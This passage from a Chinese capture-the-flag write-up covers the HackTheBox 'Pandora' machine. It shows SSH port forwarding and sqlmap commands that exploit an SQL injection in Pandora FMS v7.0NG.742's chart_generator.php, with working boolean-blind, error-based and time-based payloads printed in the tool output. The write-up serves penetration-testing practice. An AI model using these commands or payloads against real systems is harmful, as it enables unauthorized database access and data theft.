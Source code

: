 ```bash
ssh -L 80:127.0.0.1:80 daniel@pandora.htb
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/caadd0a4e8a04a66950947136404bca3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
紧接着我们访问本机的80端口，发现是一个pandora的FMS框架搭建的web服务，并且版本是`v7.0NG.742`
![在这里插入图片描述](https://img-blog.csdnimg.cn/cc07c69796d8428aa962521a3aba1d6a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在搜索引擎上搜到，存在SQL注入的可能性，并且在相对应的目录上存在SQL注入漏洞。
![在这里插入图片描述](https://img-blog.csdnimg.cn/44fd0991127a4d16ba6a36debf10b49d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/84f551a7ff9e4e7b9e1224d1a92ac12a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

那么就使用SQLMAP进行尝试注入吧，结果显示真的存在GET注入，数据库类型为MySQL

```bash
sqlmap -u "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1" --batch
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/ed03893394f6472ea708afa9cf6bd75c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查看数据库名、数据表等信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/8269e50d7ce543b5a8db603075863fec.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

```bash
sqlmap -u "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=1" --batch --dbms=mysql -D pandora --tables
        ___
       __H__                                                                                                                                       
 ___ ___[.]_____ ___ ___  {1.6#stable}                                                                                                             
|_ -| . [']     | .'| . |                                                                                                                          
|___|_  [.]_|_|_|__,|  _|                                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:29:53 /2022-01-28/

[22:29:54] [INFO] testing connection to the target URL
[22:29:54] [WARNING] potential permission problems detected ('Access denied')
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6ehkvd19mc3...lt5pi9cq7a'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: session_id=1' AND 7308=(SELECT (CASE WHEN (7308=7308) THEN 7308 ELSE (SELECT 8935 UNION SELECT 7585) END))-- -

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=1' OR (SELECT 8665 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(8665=8665,1))),0x7171717a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- aGWu

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=1' AND (SELECT 3440 FROM (SELECT(SLEEP(5)))OagF)-- HMIA
---
[22:29:54] [INFO] testing MySQL
```